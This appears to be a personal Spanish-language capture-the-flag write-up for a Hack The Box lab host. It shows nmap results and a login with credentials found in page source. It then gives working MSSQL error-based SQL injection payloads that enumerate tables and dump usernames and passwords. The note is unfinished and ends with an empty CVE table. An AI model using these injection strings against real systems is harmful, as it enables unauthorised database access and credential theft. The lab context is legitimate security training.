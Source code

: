 #Advanced-Labs #Nota #tecnicas 

### Ping

```python
ping -c 1 10.13.37.12
PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=96.2 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.183/96.183/96.183/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Nmap scan report for 10.13.37.12
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.13.37.12:1433: 
|     Target_Name: TEIGNTON
|     NetBIOS_Domain_Name: TEIGNTON
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: TEIGNTON.HTB
|     DNS_Computer_Name: WEB.TEIGNTON.HTB
|     DNS_Tree_Name: TEIGNTON.HTB
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2024-06-12T13:37:50
|_Not valid after:  2024-12-12T13:37:50
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-14T16:57:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 44s, deviation: 0s, median: 44s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

### Enumeración del puerto 80 (http)
El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.
parece que tenemos muchas cosas aquí. debemos hacer una enumeración mas a fundo de esta web
![[Pasted image 20240714130314.png]]

si vamos al apartado de staff y analizamos el código fuente podemos encontrar la primera flag y también podemos ver unas credenciales
![[Pasted image 20240714130420.png]]

### admin
aquí vamos a probar las credenciales que hemos conseguido 
![[Pasted image 20240714132229.png]]

### SQLI
después de logearnos podemos ver el apartado de management y lo primero que vemos es una especie de petición a una base de datos asi que probamos directamente una `SQLI` y obtenemos información del primer parámetro `weapp`  

```python
'+(select db_name())+'
```

![[Pasted image 20240714132403.png]]

### Enumeración de la base de datos

```python
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

en esta enumeración podemos ver que existe una tabla que se llama `users`
![[Pasted image 20240714132734.png]]

`dumpeamos el campo users`
```python
'+(select top 1 username from users order by username)+'
```

![[Pasted image 20240714133051.png]]

`dumpeamos el campo password`
```python
'+(select top 1 password from users order by username)+'
```

![[Pasted image 20240714133156.png]]

`haciendo muchas p`
![[Pasted image 20240714133355.png]]







### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
